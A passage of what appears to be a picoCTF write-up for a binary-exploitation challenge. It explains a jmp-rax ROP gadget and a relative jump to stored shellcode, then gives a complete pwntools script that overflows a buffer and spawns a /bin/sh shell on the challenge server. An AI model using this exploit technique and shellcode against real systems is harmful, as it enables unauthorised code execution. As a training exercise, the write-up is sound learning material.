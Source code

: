 We can use the `jmp rax` gadget to jump to this address and begin the shellcode execution. 
```
0x000000000040116c : jmp rax
```
Since the feedback buffer obviously does not have enough space for the entire shellcode we can perform a relative jump to the shellcode in the `msg` char array in the first entry. 
We can do:
```
(feedback array address) - (msg array address) - (length of jmp instruction)
0x7fffffffdbb4 - 0x7fffffffd8e8 - 0x5 = 0xfffffd2f (-721)
```
The assembly code for this would be:
```asm
E9 2f FD FF FF   ; JMP -716
```
We can write this in bytes as:
```
jmp_bytes = b'\xe9\x2f\xfd\xff\xff'
```
## Summary
We can input shellcode in the `msg` char array of the first entry. Then we can take advantage of the buffer overflow vulnerability and overwrite the return address and modify it to the address of the `jmp rax` ROP gadget. Since `$rax` contains the address of the beginning of the feedback buffer, we need to input `jmp_bytes` before we overflow. 
## Full-Solution
```python
from pwn import *

# Set up the connection
context.arch = 'amd64'
context.log_level = 'critical'

p = remote('shape-facility.picoctf.net', 50924)

# execute /bin/sh shellcode
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# jmp rax address
jmp_rax = 0x40116c
# jmp -721 shellcode
jmp_bytes = b'\xe9\x2f\xfd\xff\xff'

# Inject shellcode
p.sendlineafter(b'3. Exit the app\n', b'1')
p.sendlineafter(b"What's the new recipient's name: \n", b"\x90" * 8) 

p.sendlineafter(b'3. Exit the app\n', b'2')
p.sendlineafter(b'Which recipient would you like to send a message to?\n', b'0')
p.sendlineafter(b'What message would you like to send them?\n', shellcode)

# Add jmp -721 bytes code (to jump to shellcode) and some padding
payload = jmp_bytes + b'B' * 7 + b'C' * 8
# Overwrite return address with jmp rax gadget
payload += p64(jmp_rax) 

p.sendlineafter(b'3. Exit the app\n', b'3')
p.sendlineafter(b'If you could take a second to write a quick review, we would really appreciate it: \n', payload)

# Access shell
p.interactive() 

```